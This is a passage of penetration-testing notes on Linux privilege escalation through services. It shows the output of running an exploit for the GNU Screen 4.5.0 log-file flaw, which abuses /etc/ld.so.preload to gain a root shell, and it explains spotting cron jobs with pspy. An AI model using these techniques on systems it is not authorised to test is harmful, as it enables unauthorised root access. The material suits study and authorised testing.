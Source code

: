 # Service-Based Priv Esc

- Vulnerable Services
- Cron Job Abuse
- LXD
- Docker
- kubernetes
- Logrotate
- Miscellaneous Techniques

## Vulnerable Services

Many services may be found, which have flaws that can be leveraged to escalate privileges. An example is the popular terminal multiplexer Screen. Version 4.5.0 suffers from a privilege escalation vulnerability due to a lack of a permissions check when opening a log file.

**Screen Version Identification**
````
$ screen -v
Screen version 4.05.00 (GNU) 10-Dec-16
````
This allows an attacker to truncate any file or create a file owned by root in any directory and ultimately gain full root access.

**Privilege Escalation - Screen_Exploit.sh**
````
$ ./screen_exploit.sh 

~ gnu/screenroot ~
[+] First, we create our shell and library...
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!

# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
````

## Cron Job Abuse

Cron jobs can also be set to run one time (such as on boot). They are typically used for administrative tasks such as running backups, cleaning up directories, etc.When created, the cron file will be created in /var/spool/cron for the specific user that creates it. Each entry in the crontab file requires six items in the following order: minutes, hours, days, months, weeks, commands. For example, the entry 0 */12 * * * /home/admin/backup.sh would run every 12 hours. The root crontab is almost always only editable by the root user or a user with full sudo privileges; however, it can still be abused.

We can confirm that a cron job is running using pspy, a command-line tool used to view running processes without the need for root privileges. We can use it to see commands run by other users, cron jobs, etc. It works by scanning procfs.
